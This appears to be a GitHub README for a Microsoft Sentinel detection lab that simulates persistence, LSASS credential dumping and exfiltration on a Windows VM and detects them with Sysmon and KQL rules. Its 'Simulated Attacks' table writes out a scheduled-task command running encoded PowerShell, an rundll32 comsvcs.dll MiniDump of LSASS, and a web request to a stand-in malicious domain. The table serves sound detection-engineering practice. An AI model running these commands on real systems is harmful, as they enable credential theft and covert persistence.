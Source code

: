 # Sentinel-Custom-Detections

This project simulates 3 common attack techniques on a Windows VM, detects them using **Microsoft Sentinel + Sysmon**, and responds with alerts and automation. One detection rule is enhanced using a **Threat Intelligence Watchlist** to detect exfiltration attempts to known malicious domains.

---

## Objectives

- Simulate real-world attacker behavior (Scheduled Task, LSASS Dump, HTTP Exfiltration)
- Ingest **Sysmon logs** from a Windows VM into Microsoft Sentinel
- Write custom **KQL detection rules**
- Create **Scheduled Analytics Rules** for proactive detection
- Enhance detection logic using **Sentinel Watchlists**
- Generate **incidents** and document the end-to-end detection workflow

---

## Folder Structure

Sentinel-Custom-Detections/
├── kql/
│ ├── persistence-taskcreation.kql
│ ├── credentialaccess-lsassdump.kql
│ └── exfiltration.kql
├── watchlist/
│ └── M-Domains.csv
├── docs/
│ ├── hunting-guide.md
│ └── screenshots/
├── README.md

```

## 🔧 Tools Used

| Tool                     | Purpose                                                  |
|--------------------------|----------------------------------------------------------|
| Microsoft Sentinel       | SIEM platform to collect, correlate, and detect threats  |
| Sysmon                   | Generates detailed Windows event logs                    |
| KQL                      | Query language to build custom detections                |
| Sentinel Watchlist       | Ingest domain IOCs for enrichment                        |
| Logic App (optional)     | Automation (e.g., send email on detection)               |
| Windows VM               | Simulated endpoint for generating attacks                |
```
```
## Simulated Attacks

| Attack Type              | Simulation Command |
|--------------------------|--------------------|
| Scheduled Task (Persistence) | `schtasks /create /tn "Updater" /tr "powershell.exe -enc ..." /sc onlogon` |
| LSASS Dump (Credential Access) | `rundll32.exe comsvcs.dll, MiniDump 1234 C:\temp\lsass.dmp` |
| HTTP Upload (Exfiltration) | `Invoke-WebRequest -Uri http://maliciousdomain.com/file.zip -OutFile C:\temp\data.zip` |
```
---

##Detection Logic (KQL)

All queries are in the `kql/` folder:

- `persistence-taskcreation.kql`: Detects creation of scheduled tasks using `schtasks`
- `credentialaccess-lsassdump.kql`: Detects use of `rundll32.exe` or `procdump.exe` to dump LSASS
- `exfiltration-upload.kql`: Detects outbound network connections to domains from the **watchlist**

**Watchlist Integration**:

The exfiltration rule was upgraded to match **malicious domains** from `M-Domains.csv` (uploaded as a Sentinel Watchlist).

---
```
## Alerting Workflow

For each `.kql`:

1. Go to Microsoft Sentinel → Analytics → **+ Create → Scheduled query rule**
2. Set:
   - Frequency: `5 minutes`
   - Lookup period: `5 minutes`
   - MITRE tactic
   - Severity: Medium or High
   - Entity mapping: `Computer → Host`
3. Optionally attach **Logic App** for automated response (e.g., email alert)
```

